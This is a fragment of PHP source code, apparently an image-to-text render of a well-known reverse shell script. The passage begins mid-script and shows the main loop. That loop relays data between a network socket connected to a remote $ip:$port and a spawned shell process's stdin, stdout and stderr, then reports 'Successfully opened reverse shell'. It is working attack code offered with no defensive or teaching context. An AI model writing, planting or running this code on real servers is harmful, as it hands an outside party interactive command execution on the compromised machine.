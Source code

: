 ```php
    	exit(1);
    }

    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
    	if (feof($sock)) {
    		printit("ERROR: Shell connection terminated");
    		break;
    	}

    	if (feof($pipes[1])) {
    		printit("ERROR: Shell process terminated");
    		break;
    	}

    	$read_a = array($sock, $pipes[1], $pipes[2]);
    	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    	if (in_array($sock, $read_a)) {
    		if ($debug) printit("SOCK READ");
    		$input = fread($sock, $chunk_size);
    		if ($debug) printit("SOCK: $input");
    		fwrite($pipes[0], $input);
    	}

    	if (in_array($pipes[1], $read_a)) {
    		if ($debug) printit("STDOUT READ");
    		$input = fread($pipes[1], $chunk_size);
    		if ($debug) printit("STDOUT: $input");
    		fwrite($sock, $input);
    	}

    	if (in_array($pipes[2], $read_a)) {
    		if ($debug) printit("STDERR READ");
    		$input = fread($pipes[2], $chunk_size);
    		if ($debug) printit("STDERR: $input");
    		fwrite($sock, $input);
    	}
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    function printit ($string) {
    	if (!$daemon) {
    		print "$string\n";
    	}
    }

    ?>

```

